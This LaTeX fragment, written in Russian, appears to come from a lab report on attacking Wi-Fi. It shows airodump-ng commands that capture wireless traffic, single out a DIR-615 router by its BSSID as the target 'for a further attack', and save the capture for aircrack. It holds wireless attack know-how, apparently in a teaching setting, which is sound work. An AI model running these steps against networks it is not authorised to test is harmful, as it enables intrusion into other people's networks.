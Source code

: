 \documentclass[10pt,a4paper]{report}
\begin{document}
Запуск режима сбора трафика запускается командой
\begin{verbatim}
sudo airodump-ng wlan0
\end{verbatim}

\begin{figure}[h!]	
	\caption{Процесс сбора данных для получения сообщений.}
	\label{Img:2}
\end{figure}
\pagebreak

Выберем сеть для проведения дальнейшей атаки со следующим mac-адресом:  

\begin{verbatim}
C8:BE:19:87:5F:7E  DIR-615
\end{verbatim}

Начинаем ее сканирование. Вывод в файл dir615-aircrack.

\begin{verbatim}
sudo airodump-ng wlan0 --write dir615-aircrack --bssid C8:BE:19:87:5F:7E -c 2
\end{verbatim}

\begin{figure}[h!]	
	\caption{Процесс сбора данных для получения сообщений в конкретной сети.}
	\label{Img:3}
\end{figure}
\end{document}
